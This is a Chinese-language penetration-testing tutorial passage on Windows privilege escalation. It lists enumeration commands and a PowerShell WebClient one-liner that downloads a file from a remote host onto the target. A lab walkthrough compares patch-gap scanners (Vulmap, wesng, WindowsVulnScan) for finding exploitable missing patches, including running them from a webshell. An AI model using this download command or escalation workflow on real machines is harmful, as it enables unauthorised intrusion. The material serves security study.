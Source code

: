 ```vue
dir /s foo == bar           //同上
sc query                    //列出所有服务
sc qc ServiceName           //找到指定服务的路径
shutdown /r /t 0            //立即重启
type file.txt               //打印出内容
icacls "C:\Example"         //列出权限
wmic qfe get Caption,Description,HotFixID,InstalledOn  //列出已安装的补丁
(New-Object System.Net.WebClient) .DownloadFile("http://host/file"."C:\LocalPath")　//利用ps远程下载文件到本地
accesschk.exe -qwsu "Group"         //修改对象（尝试Everyone，Authenticated Users和/或Users）
```
<a name="soaVv"></a>
# 四、案例演示
<a name="tYHDV"></a>
## **4-1阿里云靶机（Windows2012）**
知识点：

- 如何判断使用哪种溢出漏洞？漏洞哪里找？
- 信息收集-补丁筛选-利用MSF或特定EXP-执行-西瓜到手
- Vulmap，Wes，WindowsVulnScan对比，exp在哪里获取？
- MSF结合云服务器搭建组合拳？模拟上述操作实战演练？

**1、信息收集**<br />可以采用一些cmd命令，收集系统信息。比如

- whoami：获得当前用户名
- whoami /priv：当前账户权限
- systeminfo：查看系统打了哪些补丁
- net user：列出用户
- net user UserName：查看关于用户的信息
- net localgroup：列出所有组
- 等等

**2、补丁筛选**<br />Vulmap，Wes，WindowsVulnScan三种方法对比：

**vulmap:** 缺点需要在powershell环境中执行，而对于webshell中是没有权限的，更适配Linux系统。我在物理机和虚拟机中都要运行都出现了各种各样的问题。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/2476579/1647954519280-3b2a6e96-543a-499d-a18e-7ae97e01dd91.png#clientId=u3166a205-9211-4&from=paste&height=315&id=u340a6bb5&originHeight=394&originWidth=828&originalType=binary&ratio=1&rotation=0&showTitle=false&size=15063&status=done&style=none&taskId=ua05519d2-9670-4bf5-9987-bb0cfbda528&title=&width=662.4)<br />**wesng,** 优点能适应web环境只需要在webshell中执行cmd命令将信息导出到本地环境中执行即可<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/2476579/1647955298881-0bfd25e8-f452-4f51-b5fd-df6a9c7d3348.png#clientId=u3166a205-9211-4&from=paste&height=460&id=u60f3deb7&originHeight=575&originWidth=1127&originalType=binary&ratio=1&rotation=0&showTitle=false&size=66757&status=done&style=none&taskId=u9e74b2e8-3b80-40ce-aa86-b3edfb47d37&title=&width=901.6)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/2476579/1647999715176-067e1986-ad8f-4955-bfd5-a98db469fb9e.png#clientId=u44d99d5a-4c3c-4&from=paste&height=533&id=u2ef0f7e5&originHeight=666&originWidth=940&originalType=binary&ratio=1&rotation=0&showTitle=false&size=114261&status=done&style=none&taskId=u34c44466-80b4-4b30-8e0d-9eec73ab3f7&title=&width=752)<br />**WindowsVulnScan：**[https://github.com/chroblert/WindowsVulnScan](https://github.com/chroblert/WindowsVulnScan)<br />**缺点：**需要借助powershll也可以用systeminfo获取的信息安装工具的格式改成为json
```vue
1. 首先运行powershell脚本KBCollect.ps收集一些信息

.\KBCollect.ps1
2. 将运行后产生的KB.json文件移动到cve-check.py所在的目录

3. 安装一些python3模块

python3 -m pip install requirements.txt
4. 运行cve-check.py -u创建CVEKB数据库

5. 运行cve-check.py -U更新CVEKB数据库中的hasPOC字段

此处可以使用-m选择更新模式。
-m All:更新所有
```